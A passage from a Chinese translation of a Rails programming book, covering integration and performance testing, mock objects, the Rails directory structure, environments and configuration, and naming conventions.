      mike.checks_out MIKES_DETAILS
      check_for_order MIKES_DETAILS, @rails_book
end
```

我们从第 ?? 页开始展示小型语言版本测试类的完整列表。

### 集成测试支持

集成测试与功能测试看起来惊人地相似，实际上我们在单元测试和功能测试中使用的所有相同断言在集成测试中都适用。然而，需要注意一些细节，因为许多辅助方法有微妙的差异。

集成测试围绕着会话的概念展开。会话代表一个用户在浏览器中与我们的应用程序交互。虽然与控制器中的会话变量在概念上相似，但这里的*会话*一词含义不同。

当你开始一个集成测试时，你会得到一个默认会话（如果你真的需要，可以通过实例变量 `integration_session` 访问它）。所有的集成测试方法（如 `get`）实际上都是这个会话上的方法：测试框架为你委托了这些调用。但是，你也可以创建显式会话（使用 `open_session()` 方法）并直接在它上面调用这些方法。这让你可以同时模拟多个用户（或者让你创建具有不同特性的会话，在测试中依次使用）。我们在第 210 页的测试中看到了多个会话的例子。

集成测试会话具有以下属性。在集成测试中为它们赋值时，请小心使用显式的接收者：

```ruby
self.accept = "text/plain"      # 可行
open_session do |sess|
  sess.accept = "text/plain"    # 可行
end
accept = "text/plain"           # 不可行--局部变量
```

在下面的列表中，`sess` 代表一个会话对象。

- `accept`：要发送的 `accept` 头。

  ```ruby
  sess.accept = "text/xml,text/html"
  ```

- `controller`：对上次请求使用的控制器实例的引用。

- `cookies`：一个 cookie 的哈希表。设置此哈希表中的条目以随请求发送 cookie，并从哈希表中读取值以查看响应中设置了哪些 cookie。

- `headers`：上次响应返回的头信息，以哈希表形式。

- `host`：将此值设置为与下一个请求关联的主机名。在编写行为依赖于主机名的应用程序时很有用。

### 集成测试便捷方法

以下方法可在集成测试中使用。

`follow_redirect!()`

如果对控制器的上一次请求导致了重定向，则跟随该重定向。

`get(path, params=nil, headers=nil)`

`post(path, params=nil, headers=nil)`

`xml_http_request(path, params=nil, headers=nil)`

执行 GET、POST 或 XML_HTTP 请求，并使用给定的参数。Path 应为一个包含要调用的 URI 的字符串。它不需要包含协议或主机部分。如果包含，并且协议是 HTTPS，则将模拟一个 https 请求。如果提供了 params 参数，它应该是一个键/值对的哈希表，或一个包含编码表单数据的字符串。⁴

```ruby
get "/store/index"
assert_response :success
get "/store/product_info", :id => 123, :format => "long"
```

`get_via_redirect(path, args={})`

`post_via_redirect(path, args={})`

执行 get 或 post 请求。如果响应是重定向，则跟随它，以及任何后续重定向，直到返回一个非重定向的响应。

> ⁴application/x-www-form-urlencoded 或 multipart/form-data。

`host!(name)`

设置下一个请求中要使用的主机名。与设置 host 属性相同。

`https!(use_https=true)`

如果传入 true（或不带参数），后续请求将模拟使用 https 协议。

`https?`

如果设置了 https 标志，则返回 true。

`open_session { |sess| ... }`

创建一个新的会话对象。如果给出了代码块，则将会话传递给代码块，否则返回它。

`redirect?()`

如果上一个响应是重定向，则返回 true。

`reset!()`

重置会话，允许单个测试重用一个会话。

`url_for(options)`

根据一组选项构造一个 url。这可用于生成 get 和 post 的参数。

```ruby
get url_for(:controller => "store", :action => "index")
```

## 13.5 性能测试

测试不仅仅是关于某件事是否按预期执行。我们可能还想了解它执行得是否足够快。

在我们深入探讨之前，先提个醒。大多数应用在大多数时候都运行良好，而当它们开始变慢时，往往是以我们从未预料到的方式。因此，在开发早期就专注于性能通常不是一个好主意。相反，我们建议在开发过程的后期，在两种场景下使用性能测试。

1. 当你进行容量规划时，你需要了解诸如处理预期负载所需的服务器数量等信息。性能测试可以帮助生成（并调整）这些数据。
2. 当你部署后注意到运行变慢时，性能测试可以帮助定位问题。并且，一旦定位到问题，保留该测试将有助于防止问题再次发生。

这类问题的一个常见例子是与数据库相关的性能问题。一个应用可能运行了好几个月，然后有人给数据库添加了一个索引。虽然该索引解决了某个特定问题，但它也带来了意想不到的副作用，极大地减慢了应用的其他部分。

在过去（是的，就是去年），我们曾建议创建单元测试来监控性能问题。其理念是，当性能开始超出某个预设限制时，这些测试会给你提供预警：你在测试期间就能了解到这一点，而不是在部署之后。确实，我们仍然建议这样做，正如我们接下来将看到的。然而，这种孤立的性能测试并非全部，在本节末尾，我们将对其他类型的性能测试提出建议。

让我们从一个略显人为的场景开始。我们需要知道我们的商店控制器能否在三秒内处理创建 100 个订单。我们想在一个包含 1,000 个产品的数据库上执行此操作（因为我们怀疑产品数量可能很重要）。我们该如何为此编写测试呢？

为了创建所有这些产品，让我们使用一个动态夹具。

```yaml
Download depot_r/test/fixtures/performance/products.yml
<% 1.upto(1000) do |i| %>
product_<%= i %>:
  id:       <%= i %>
  title:    Product Number <%= i %>
  description: My description
  image_url:    product.gif
  price:        1234
<% end %>
```

请注意，我们已将此夹具文件放在 `fixtures` 目录的 `performance` 子目录中。夹具文件的名称必须与数据库表名匹配，因此我们不能在同一个目录中有多个针对 products 表的夹具。我们希望将常规的 `fixtures` 目录保留给传统单元测试使用的测试数据，因此我们只需将另一个 `products.yml` 文件放在一个子目录中。

注意，在测试中，我们循环从 1 到 1,000。最初很容易想到使用 `1000.times do | |...`，但这行不通。`times()` 方法生成的数字是从 0 到 999，如果我们把 0 作为 id 值传递给 MySQL，它会忽略它并使用一个自动生成的键值。这可能会导致键冲突。

现在我们需要编写一个性能测试。同样，我们希望将它们与非性能测试分开，因此我们在 `test/performance` 目录中创建一个名为 `order_speed_test.rb` 的文件。由于我们是在测试控制器，我们将基于标准功能测试来构建测试（并且我们将通过复制 `store_controller_test.rb` 中的样板代码来“作弊”）。经过初步编辑后，它看起来像这样：

```ruby
require File.dirname(__FILE__) + '/../test_helper'
require 'store_controller'

### Re-raise errors caught by the controller.
class StoreController; def rescue_action(e) raise e end; end

class OrderSpeedTest < Test::Unit::TestCase
  def setup
    @controller = StoreController.new
    @request     = ActionController::TestRequest.new
    @response   = ActionController::TestResponse.new
  end
end
```

让我们先加载产品数据。因为我们使用的夹具不在常规的 `fixtures` 目录中，所以我们必须覆盖默认的 Rails 路径。

```ruby
self.fixture_path = File.join(File.dirname(__FILE__), "../fixtures/performance")
fixtures :products
```

我们需要一些订单表单的数据；我们将使用在集成测试中使用的相同哈希值。最后，我们有了测试方法本身。

```ruby
def test_100_orders
  Order.delete_all
  LineItem.delete_all

  @controller.logger.silence do
    elapsed_time = Benchmark.realtime do
      100.downto(1) do |prd_id|
        cart = Cart.new
        cart.add_product(Product.find(prd_id))
        post :save_order,
             { :order => DAVES_DETAILS },
             { :cart   => cart }
        assert_redirected_to :action => :index
      end
    end
    assert_equal 100, Order.count
    assert elapsed_time < 3.00
  end
end
```

这段代码使用了 `Benchmark.realtime()` 方法，它是 Ruby 标准库的一部分。它运行一个代码块并返回所用时间（以浮点数表示秒数）。在我们的例子中，该代码块使用我们的 100 个产品中的每一个（顺序相反，只是为了混合一下）创建了 100 个订单。

你会注意到代码还有一个巧妙的特性：

```ruby
@controller.logger.silence do
end
```

默认情况下，Rails 会将处理我们 100 个订单的所有工作跟踪记录到日志文件（test.log）中。事实证明这是相当大的开销，因此我们通过将其放置在一个禁用日志记录的代码块中来使日志静默。在我的 G5 上，这将执行该代码块所需的时间减少了大约 30%。正如我们稍后将看到的，在实际生产代码中，有更好的方法来使日志静默。

我们的性能测试在测试环境中运行良好。然而，性能问题通常在生产环境中才会显现，而这正是我们希望能够监控的地方。幸运的是，我们在这个环境中也有一些选择。

### 性能分析与基准测试

如果你只想测量某个特定方法（或语句）的性能，你可以使用 Rails 随每个项目提供的 `script/profiler` 和 `script/benchmarker` 脚本。benchmarker 脚本告诉你一个方法花费了多长时间，而 profiler 告诉你每个方法将其时间花在了哪里。benchmarker 提供相对准确的耗时，而 profiler 增加了显著的开销——其绝对时间并不那么重要，但相对时间很重要。

假设（作为一个牵强的例子）我们注意到 `User.encrypted_password()` 方法似乎花费了太长时间。让我们先确认一下情况是否如此。

```text
depot> ruby script/performance/benchmarker 'User.encrypted_password("secret", "salt")'
        user     system      total        real
#1      1.650000   0.030000   1.680000 (  1.761335)
```

哇！运行一个方法耗时 1.8 秒似乎太高了！让我们运行 profiler 来深入探究一下。

## 13.6 使用模拟对象

```text
depot> ruby script/performance/profiler 'User.encrypted_password("secret", "salt")'

Loading Rails...

Using the standard Ruby profiler.

     %   cumulative   self              self     total

time     seconds   seconds    calls  ms/call  ms/call  name

 78.65      58.63     58.63        1 58630.00 74530.00  Integer#times

 21.33      74.53     15.90  1000000     0.02     0.02  Math.sin

  1.25      75.46      0.93        1   930.00   930.00  Profiler__._start_profile

  0.01      75.47      0.01       12     0.83     0.83  Symbol#to_sym

  . . .

  0.00      75.48      0.00        1     0.00     0.00  Hash#update
```


这很奇怪：该方法似乎把大部分时间都花在了 `times()` 和 `sin()` 方法上。我们来看一下源代码：

```ruby
def self.encrypted_password(password, salt)
  1000000.times { Math.sin(1) }
  string_to_hash = password + salt
  Digest::SHA1.hexdigest(string_to_hash)
end
```

哎呀！顶部那个循环是我之前在手动测试时为了放慢速度而加上的，在部署应用程序之前我一定是忘记把它移除了。看来我这一周是别想用那个红色的订书机了。

最后，记住日志文件。它们是获取有用计时信息的宝库。

在某个时候，我们需要给 Depot 应用添加代码，以便实际向我们亲爱的客户收款。那么，想象一下，我们已经完成了所有将信用卡号变成我们银行账户里真金白银所需的文书工作。然后，我们在 `lib/payment_gateway.rb` 文件中创建了一个 `PaymentGateway` 类，用于与信用卡处理网关通信。并且，我们通过在 `StoreController` 的 `save_order()` 操作中添加以下代码，将 Depot 应用连接起来以处理信用卡：

```ruby
gateway = PaymentGateway.new

response = gateway.collect(:login       => 'username',
                           :password    => 'password',
                           :amount      => cart.total_price,
                           :card_number => @order.card_number,
                           :expiration  => @order.card_expiration,
                           :name        => @order.name)
```

当调用 `collect()` 方法时，信息会通过网络发送到后端的信用卡处理系统。这对我们口袋里的钱是好事，但对我们的功能测试却很不利，因为 `StoreController` 现在依赖于与另一端真实、活跃的信用卡处理器的网络连接。而且，即使我们随时都具备这两样东西，我们仍然不想在每次运行功能测试时都发送真实的信用卡交易。

相反，我们只想针对一个 `mock`（即替代的）`PaymentGateway` 对象进行测试。使用模拟对象使测试无需网络连接，并确保结果更加一致。值得庆幸的是，Rails 让模拟对象变得轻而易举。

要在测试环境中模拟 `collect()` 方法，我们只需在 `test/mocks/test` 目录中创建一个 `payment_gateway.rb` 文件。让我们来看看这里的命名细节。

首先，文件名必须与我们试图替换的文件名相匹配。我们可以模拟模型、控制器或库文件：唯一的约束是文件名必须匹配。其次，看一下模拟文件的路径。我们把它放在 `test/mocks` 目录的 `test` 子目录中。这个子目录包含了在 `test` 环境下使用的所有模拟文件。如果我们想在开发环境下模拟文件，我们会将模拟文件放在 `test/mocks/development` 目录中。

现在让我们看看文件本身。

```ruby
require 'lib/payment_gateway'

class PaymentGateway
  # I'm a mocked out method
  def collect(request)
    true
  end
end
```

请注意，模拟文件实际上加载了原始的 `PaymentGateway` 类（使用 `require`）。然后它重新打开了 `PaymentGateway` 类，并只覆盖了 `collect()` 方法。这意味着我们不必模拟 `PaymentGateway` 的所有方法，只需模拟那些我们想在测试运行时重新定义的方法。在这种情况下，`collect()` 只是返回一个伪造的响应。

有了这个文件，`StoreController` 就会使用模拟的 `PaymentGateway` 类。之所以会这样，是因为 Rails 安排搜索路径时，会将模拟目录放在常规应用程序代码目录之前。

模拟路径在前——因此加载的是 `test/mocks/test/payment_gateway.rb`，而不是 `lib/payment_gateway.rb`。

就这么简单。通过使用模拟对象，我们可以简化测试，并专注于测试最重要的部分。而 Rails 让这一切变得毫无痛苦。

### 我们刚刚做了什么

我们为 Depot 应用编写了一些测试，但并没有测试所有内容。然而，凭借我们目前所知，我们*可以*测试所有内容。事实上，Rails 提供了出色的支持来帮助你编写良好的测试。尽早并频繁地测试——你就能在 bug 有机会运行和隐藏之前捕获它们，你的设计会得到改进，你的 Rails 应用也会因此感谢你。

# 第三部分 Rails 框架

# 第 14 章 深入 Rails

经历了我们的 Depot 项目，现在似乎是深入了解 Rails 的好时机。在本书的剩余部分，我们将逐个主题地介绍 Rails（这几乎意味着逐个模块地介绍）。

本章设定场景。它讨论了理解其余部分所需了解的所有高级内容：目录结构、配置、环境、支持类和调试提示。但首先，我们得问一个重要的问题……

## 14.1 那么 Rails 在哪里？

Rails 的一个有趣之处在于它的组件化方式。从开发者的角度来看，你所有的时间都花在处理像 Active Record 和 Action View 这样的高级事物上。有一个叫 Rails 的组件，但它位于其他组件之下，默默地协调它们的工作，使它们无缝协作。没有 Rails 组件，很多功能都无法实现。但与此同时，只有这一底层基础设施的一小部分与开发者的日常工作相关。我们将在本章剩余部分讨论那些*相关*的内容。

## 14.2 目录结构

Rails 假设了特定的运行时目录布局。图 14.1（在下一页）展示了运行 `rails my_app` 命令后创建的顶级目录。让我们看看每个目录包含什么内容（虽然不一定是按顺序）。`config` 和 `db` 目录需要更多讨论，因此各自有专门的章节。

### my_app/

| 目录 | 描述 |
| :--- | :--- |
| `README` | 安装和使用信息 |
| `Rakefile` | 构建脚本 |
| `app/` | 模型、视图和控制器文件存放于此 |
| `components/` | 可重用组件 |
| `config/` | 配置和数据库连接参数 |
| `db/` | 数据库模式和迁移信息 |
| `doc/` | 自动生成的文档 |
| `lib/` | 共享代码 |
| `log/` | 应用程序产生的日志文件 |
| `public/` | Web 可访问目录。你的应用程序从这里运行 |
| `script/` | 实用脚本 |
| `test/` | 单元、功能和集成测试、固件和模拟对象 |
| `tmp/` | 运行时临时文件 |
| `vendor/` | 导入的代码 |

图 14.1：`rails my_app` 命令的结果

顶级目录还包含一个 `Rakefile`。你可以用它来运行测试（在第 ?? 页的 `sec.rake` 中描述）、创建文档、提取当前模式的结构等等。在提示符下输入 `rake --tasks` 可查看完整列表。

### app/ 和 test/

我们的大部分工作在 `app` 和 `test` 目录中进行。应用程序的主要代码位于 `app` 目录下，如图 14.2（在下一页）所示。随着我们在本书后续章节中更详细地介绍 Active Record、Action Controller 和 Action View，我们将更多地讨论 `app` 目录的结构，而且我们已经在第 13 章《任务 T：测试》（第 181 页）中看过 `test` 了。

### components/

在 Rails 美好的旧日子里，`components` 目录本应包含可重用的视图代码和控制器代码块。它们有点

### doc/

`doc` 目录用于存放应用程序文档，通过 RDoc 生成。如果你运行 `rake doc:app`，最终会在 `doc/app` 目录中生成 HTML 文档。你可以通过编辑 `doc/README_FOR_APP` 文件为该文档创建一个特殊的首页。第 180 页的图 12.3 展示了我们商店应用程序的顶层文档。

### lib/

`lib` 目录存放那些不严格归属于模型、视图或控制器的应用程序代码。例如，你可能编写了一个库，用于创建商店顾客可以下载的 PDF 收据。¹ 这些收据通过 `send_data()` 方法直接从控制器发送到浏览器。创建这些 PDF 收据的代码自然就放在 `lib` 目录中。

`lib` 目录也是存放模型、视图或控制器之间共享代码的好地方。也许你需要一个库来验证信用卡号码的校验和，或者进行某些财务计算，或者计算复活节的日期。任何不是直接属于模型、视图或控制器的东西，都应该放入 `lib` 目录。

不要觉得必须把一堆文件直接放入 `lib` 目录本身。大多数有经验的 Rails 开发者会在 `lib` 下创建子目录，将相关功能分组。例如，在 Pragmatic Programmer 商店中，生成收据、发货海关文件和其他 PDF 格式文档的代码都放在 `lib/pdfstuff` 目录中。

一旦你在 `lib` 目录中有了文件，就可以在应用程序的其他地方使用 Ruby 的 `require` 机制来引用它们。如果文件就在 `lib` 目录本身，你可以直接按名称 `require`。例如，如果我们的复活节计算库在文件 `lib/easter.rb` 中，我们可以在任何模型、视图或控制器中这样包含它：

```
require "easter"
```

如果库在 `lib` 的子目录中，请记住在 `require` 语句中包含该目录的名称。例如，要在控制器中包含 PDF 收据写入器，我们需要添加这行代码：

```
require "pdf_stuff/receipt_writer"
```

¹ 我们在 Pragmatic Programmer 商店中就是这样做的。

### log/

Rails 运行时会产生大量有用的日志信息。这些信息（默认情况下）存储在 `log` 目录中。你会找到三个主要的日志文件，分别是 `development.log`、`test.log` 和 `production.log`。日志不仅包含简单的跟踪行；还包含时间统计、缓存信息以及执行的数据库语句的扩展信息。

具体使用哪个文件取决于你的应用程序运行的环境（关于环境，我们将在讨论 `config` 目录时进一步说明）。

### public/

`public` 目录是你的应用程序的外部界面。Web 服务器将此目录作为应用程序的基础。大部分部署配置都在这里进行，因此我们将推迟到第 24 章 *部署与生产*（第 524 页）再讨论。

### script/

`script` 目录包含对开发者有用的程序。大多数脚本不带参数运行即可获取用法信息。

- **about**：显示应用程序使用的 Ruby 和 Rails 组件的版本号，以及其他配置信息。
- **breakpointer**：一个客户端，允许你与运行中的 Rails 应用程序交互。我们从第 238 页开始讨论这个。
- **console**：允许你使用 `irb` 与你的 Rails 应用程序方法交互。
- **destroy**：移除由 `generate` 创建的自动生成文件。
- **generate**：一个代码生成器。开箱即用时，它将创建控制器、邮件器、模型、脚手架和 Web 服务。你也可以从 Rails 网站下载额外的生成器模块。²
- **plugin**：`plugin` 帮助你安装和管理插件——扩展 Rails 功能的功能片段。我们在第 ?? 页的 `sec.plugins` 中讨论插件。
- **runner**：在 Web 上下文之外执行应用程序中的一个方法。你可以使用这个从 `cron` 作业调用缓存过期方法或处理传入的电子邮件。
- **server**：`server` 脚本在独立的 Web 服务器中运行你的 Rails 应用程序，使用 LighTTP（如果你的系统上有）或 WEBRick。我们在 Depot 应用程序的开发过程中一直在使用这个。

`script` 目录包含两个子目录，每个目录都存放更专业的脚本。`script/process` 目录包含两个帮助控制已部署 Rails 应用程序的脚本：我们将在部署章节讨论这些。`script/performance` 目录包含两个帮助你理解应用程序性能特征的脚本。

- **benchmarker**：获取应用程序中一个或多个方法的性能基准。
- **profiler**：创建应用程序中一段代码的运行时分析摘要。

² <http://wiki.rubyonrails.com/rails/show/AvailableGenerators>

### tmp/

Rails 将其临时文件存放在 `tmp` 目录中，这应该不足为奇。你会发现这里有用于缓存内容、会话和套接字的子目录。

### vendor/

`vendor` 目录是第三方代码的存放位置。如今，这些代码通常来自两个来源。

首先，Rails 会将插件安装到 `vendor/plugins` 下的目录中。插件是在开发和运行时扩展 Rails 功能的方式。我们将在第 ?? 页的 `sec.plugins` 中进一步讨论插件。

其次，你可以要求 Rails 将自身安装到 `vendor` 目录中。但为什么你会想要这样做呢？

通常，你会使用系统级的 Rails 代码副本开发你的应用程序。构成 Rails 的各种库将作为 Gems 安装在你的 Ruby 安装中的某个地方，你所有的 Rails 应用程序都将共享它们。

然而，随着部署临近，你可能需要考虑 Rails 变更对你的应用程序的影响。尽管你的代码现在工作正常，但六个月后，如果核心团队对 Rails 进行了与你应用程序不兼容的更改，会发生什么？如果你在生产服务器上天真地升级 Rails，你的应用程序将突然停止工作。或者，也许你的开发机器上有多个应用程序，它们是在数月或数年的时间里一个接一个开发的。早期的应用程序可能只与较早版本的 Rails 兼容，而后期的应用程序可能需要较新 Rails 版本才有的功能。

这些问题的解决方案是将你的应用程序绑定到特定版本的 Rails。一种方法（在本页的侧边栏中描述）假设你需要的所有 Rails 版本都已作为 Gems 全局安装——它只是告诉你的每个应用程序加载正确版本的 Rails。然而，许多开发者觉得采取第二种方式更安全，即将 Rails 代码直接冻结到应用程序的目录树中。通过这样做，Rails 库会与相应的应用程序代码一起保存到版本控制系统中，保证始终可以使用正确版本的 Rails。

这样做很轻松。如果你想将你的应用程序锁定到当前安装为 Gem 的 Rails 版本，只需输入命令：

```
depot> rake rails:freeze:gems
```

在幕后，此命令会将最新的 Rails 库复制到 `vendor/rails` 目录下的目录树中。当 Rails 启动运行一个应用程序时，它总是先在那个目录中查找自身的库，然后再查找系统级版本，因此冻结后，你的应用程序就绑定到了那个特定版本的 Rails。

如果你想恢复使用系统级的 Rails 版本，可以删除 `vendor/rails` 目录，或者运行命令：

```
depot> rake rails:unfreeze
```

> ### 将你的应用程序绑定到特定 Gem 版本
>
> 你可以通过在 `config` 目录的 `environment.rb` 文件最顶部添加一行来告诉 Rails 使用特定版本的自身：
>
> `RAILS_GEM_VERSION = "1.1.2"`
>
> 当你启动应用程序时，Rails 将查询你系统上已安装的 Gems 并安排加载正确的版本。
>
> 尽管这种方法简单有吸引力，但它有一个主要缺点：如果你部署到不包含指定 Rails 版本的机器上，你的应用程序将无法运行。为了获得更健壮的部署，最好将 Rails 冻结到你的 `vendor` 目录中。

除了将当前 Gem 版本的 Rails 固化到应用中，你还可以将应用链接到 Rails 自身的 Subversion 仓库（即 Rails 核心开发者提交代码的仓库）中的某个 Rails 版本。你有几种选择，但都需要在本地机器上安装 Subversion 客户端。第一种选择还要求你自己的项目存储在 Subversion 仓库中。

### 将你的项目链接到 Rails 仓库

将你的代码链接到 Rails 开发代码的一种方法是使用 Subversion 的*外部引用*功能。我们会将 `vendor` 下的 `rails` 子目录直接链接到他们仓库中 Rails 开发代码的*最新版本*。在项目的顶层目录中，输入命令（全部在一行内，不要使用反斜杠）：

```
depot> svn propset svn:externals \
          "rails http://dev.rubyonrails.org/svn/rails/trunk" vendor
```

这会告诉 Subversion，`vendor/rails` 目录实际上来自一个远程仓库。然后输入：

```
depot> svn up vendor
```

你将看到 Rails 被安装到你的应用中。从现在起，每次运行 `svn up` 时，你既会更新应用的代码，也会获取 Rails 的任何更改。这就是在边缘（Edge）上生活的体验。

### 固化 Rails 的边缘版本

前面的技术在你的应用和 Rails 库的最前沿之间建立了动态连接。另一种方法是从开发仓库中取出一个 Rails 版本，并像我们固化 Gem 版本一样，将其固化到你的应用目录树中。为此，我们使用以下三种 Rake 任务变体之一。


```text
depot> rake rails:freeze:edge
depot> rake rails:freeze:edge TAG=rel_1-1-0
depot> rake rails:freeze:edge REVISION=4567
```

这些 Rake 任务会获取一个版本的 Rails（当前版本、特定标签或特定 Subversion 修订号）并将其固化到你的 `vendor` 目录中。这比让项目随着核心团队每天的更改而动态更新风险更小，但作为交换，如果你需要获取一些最后时刻的功能，你需要先解冻再重新固化。

## 14.3 Rails 配置

Rails 的运行时配置由 `config` 目录下的文件控制。这些文件与*运行时环境*的概念协同工作。

### 运行时环境

开发者在编写代码、测试代码以及在生产环境中运行代码时，其需求是截然不同的。编写代码时，你需要大量的日志、方便地重新加载更改的源文件、显眼的错误通知等等。在测试时，你需要一个孤立的系统以获得可重复的结果。在生产环境中，系统应针对性能进行调优，并且应将用户与错误隔离开来。

为了支持这一点，Rails 引入了运行时环境的概念。每个环境都有一套自己的配置参数；在不同的环境中运行同一个应用，该应用会表现出不同的行为。

决定运行时环境的开关在应用外部。这意味着从开发环境过渡到测试环境再到生产环境时，无需更改任何应用代码。指定运行时环境的方式取决于你如何运行应用。如果使用 `script/server`，则使用 `-e` 选项。

```bash
depot> ruby script/server -e development    # 如果省略 -e，这是默认值
depot> ruby script/server -e test
depot> ruby script/server -e production
```

如果使用 Apache 或 lighttpd，则设置 `RAILS_ENV` 环境变量。这将在第 [??] 页进行描述。

如果有特殊需求，你可以创建自己的环境。你需要向数据库配置文件添加一个新段，并在 `config/environments` 目录下创建一个新文件。接下来将对此进行描述。

### 配置数据库连接

`config/database.yml` 文件用于配置数据库连接。你会发现它包含三个部分，分别对应三个运行时环境。图 **6.1**（第 **62** 页）展示了一个典型的 `database.yml` 文件。

每个部分必须以环境名称开头，后跟冒号。该部分的行应紧随其后，每行缩进并包含一个键，后跟冒号和相应的值。每个部分至少需要指定数据库适配器（MySQL、Postgres 等）和要使用的数据库。适配器对其他参数有其特定的要求。这些参数的完整列表如图 16.2（第 260 页）所示。

如果需要在不同的数据库服务器上运行应用，有几种配置选项。如果数据库连接是唯一的差异，你可以在 `database.yml` 中创建多个部分，每个部分以环境和数据库命名。然后，可以使用 YAML 的别名功能来选择特定的数据库。

```yaml
# 将以下行更改为指向正确的数据库
development: development_sqlite

development_mysql:
  adapter: mysql
  database: depot_development
  host: localhost
  username:
  password:

development_sqlite:
  adapter: sqlite
  dbfile: my_db
```

如果切换到不同的数据库还需要更改应用配置中的其他内容，你可以创建多组环境（如 development-mysql、development-postgres 等），并在 `database.yml` 文件中创建相应的部分。同时，还需要在 `environments` 目录下添加相应的文件。

如第 259 页所述，手动建立连接时也可以引用 `database.yml` 中的部分。

### 环境文件

应用的运行时配置由两个文件执行。一个是 `config/environment.rb`，它与环境无关——无论 `RAILS_ENV` 设置如何都会被使用。第二个文件则依赖于环境：Rails 会在 `config/environments` 目录下查找一个以当前环境命名的文件，并在处理 `environment.rb` 期间加载它。默认情况下包含三个标准环境文件（`development.rb`、`production.rb` 和 `test.rb`）。如果定义了新的环境类型，可以添加自己的文件。

环境文件通常做三件事：

- 它们设置 Ruby 加载路径。这是应用在运行时能够找到模型和视图等内容的方式。
- 它们创建应用使用的资源（例如日志记录器）。
- 它们为 Rails 和你的应用设置各种配置选项。

前两项通常是应用级别的，因此在 `environment.rb` 中完成。配置选项通常因环境而异，因此很可能在 `environments` 目录下的特定环境文件中设置。

### 加载路径

标准环境会自动将以下目录（相对于应用的基础目录）包含在应用的加载路径中。

- `test/mocks/environment`。由于这些目录在加载路径中优先级最高，此处定义的类会覆盖真实版本，使得你能在测试期间用桩代码替换实际功能。这从第 218 页开始描述。
- `app/controllers` 目录及其子目录。
- `app/models` 和 `components` 下所有以下划线或小写字母开头的目录。
- `app`、`app/models`、`app/controllers`、`app/helpers`、`app/services`、`app/apis`、`components`、`config`、`lib` 和 `vendor` 目录。

这些目录仅在存在时才会被添加到加载路径中。

此外，Rails 会检查应用中的 `vendor/rails` 目录。如果存在，它会安排从那里加载自身，而不是从共享库代码中加载。

## 配置参数

通过在 Rails 模块中设置各种选项来配置 Rails。通常，你会在 `environment.rb` 的末尾（如果希望该设置适用于所有环境）或在 `environments` 目录下的某个特定环境文件中进行这些设置。

所有配置参数的列表在附录 B（第 545 页）中提供。

## 14.4 命名约定

有时让 Rails 新手感到困惑的一点是它自动处理命名的方式。当他们定义一个名为 `Person` 的模型类时，Rails 却能知道去查找名为 `people` 的数据库表，这常常让他们感到惊讶。本节旨在说明这种隐式命名的工作原理。

这里的规则是 Rails 使用的默认约定。你可以在 Rails 类中使用适当的声明来覆盖所有这些约定。

### 大小写混合、下划线和复数形式

我们经常使用简短短语来命名变量和类。在 Ruby 中，变量名约定是所有字母小写，单词之间用下划线分隔。类和模块的命名方式则不同：没有下划线，短语中的每个单词（包括第一个）都要首字母大写。（基于相当明显的原因，我们称之为大小写混合命名法）。这些约定导致了像 `order_status` 这样的变量名和像 `LineItem` 这样的类名。

Rails 沿用了这个约定，并在两个方面进行了扩展。首先，它假设数据库表名和变量名一样，使用小写字母和单词之间的下划线。Rails 还假设表名总是复数形式。这导致了像 `orders` 和 `third_parties` 这样的表名。

在另一个维度上，Rails 假设文件名使用小写字母和下划线。

Rails 利用这些命名约定知识来自动转换名称。例如，你的应用程序可能包含一个处理订单项的模型类。你会使用 Ruby 的命名约定来定义这个类，将其命名为 `LineItem`。从这个名字开始，Rails 会自动推断出以下内容。

- 对应的数据库表将被称为 `line_items`。即类名转换为小写，单词之间加下划线，并转为复数。
- Rails 还知道要在名为 `line_item.rb` 的文件中查找该类定义（在 `app/models` 目录中）。

Rails 控制器有额外的命名约定。如果我们的应用程序有一个 `store` 控制器，那么将会发生以下情况。

### 模型命名

| 键 | 值 |
|---|---|
| 表 | `line_items` |
| 类 | `LineItem` |
| 文件 | `app/models/line_item.rb` |

### 控制器命名

| 键 | 值 |
|---|---|
| URL | `http://.../store/list` |
| 类 | `StoreController` |
| 文件 | `app/controllers/store_controller.rb` |
| 方法 | `list` |
| 布局 | `app/views/layouts/store.rhtml` |

### 视图命名

| 键 | 值 |
|---|---|
| URL | `https://.../store/list` |
| 文件 | `app/views/store/list.rhtml` (或 `.rxml`, `.rjs`) |
| 辅助模块 | `module StoreHelper` |
| 文件 | `app/helpers/store_helper.rb` |

**图 14.3：**命名约定总结

- Rails 假设类名为 `StoreController`，并且位于 `app/controllers` 目录下的 `store_controller.rb` 文件中。
- 它还假设在 `app/helpers` 目录下的 `store_helper.rb` 文件中有一个名为 `StoreHelper` 的辅助模块。
- 它会在 `app/views/store` 目录中查找该控制器的视图模板。
- 默认情况下，它会将这些视图的输出包裹在 `app/views/layouts` 目录中 `store.rhtml` 或 `store.xml` 所包含的布局模板中。

所有这些约定都显示在图 **14.3** 中。

还有一个额外的转折。在普通的 Ruby 代码中，你必须在引用文件中的类和模块之前，使用 `require` 关键字来包含 Ruby 源文件。因为 Rails 知道文件名和类名之间的关系，在 Rails 应用程序中通常不需要使用 `require`。相反，当你第一次引用一个未知的类或模块时，Rails 会使用命名约定将类名转换为文件名，并尝试在后台加载该文件。最终效果是，你通常可以引用（比如）一个模型类的名称，该模型就会自动加载到你的应用程序中。

我们说过 `require` 通常不是必需的。但你需要用它来加载 Rails 没有显式管理的 Ruby 源文件。特别是，如果你在 `lib` 目录或其子目录中有代码，你就需要使用 `require` 来加载它。

```ruby
require "my_library"
require "pdf/invoice_writer"
```

> **大卫说……**
>
> **为什么表要用复数形式？**
>
> 因为在对话中听起来更自然。真的。“从 `products` 中选择一个 `Product`。”就像“`Order has_many :line_items`。”一样。
>
> 其目的是通过创建一种可以由双方共享的领域语言来桥接编程和对话。拥有这样一种语言意味着减少心理翻译，否则在与客户讨论 `product description` 时会与实际实现为 `merchandise body` 的情况产生混淆。这些沟通鸿沟必然会导致错误。
>
> Rails 通过让你免费获得大部分配置（如果你遵循标准约定的话）来让事情变得更好。因此，开发者会因为做正确的事情而得到奖励，所以这与其说是放弃“你的方式”，不如说是免费获得生产力。

### 将控制器分组到模块中

到目前为止，我们所有的控制器都位于 `app/controllers` 目录中。有时为此结构添加更多层次会很方便。例如，我们的商店可能最终会有许多执行相关但独立的管理功能的控制器。我们可能选择将它们分组到一个单独的 `admin` 命名空间中，而不是用每个控制器来污染顶层命名空间。

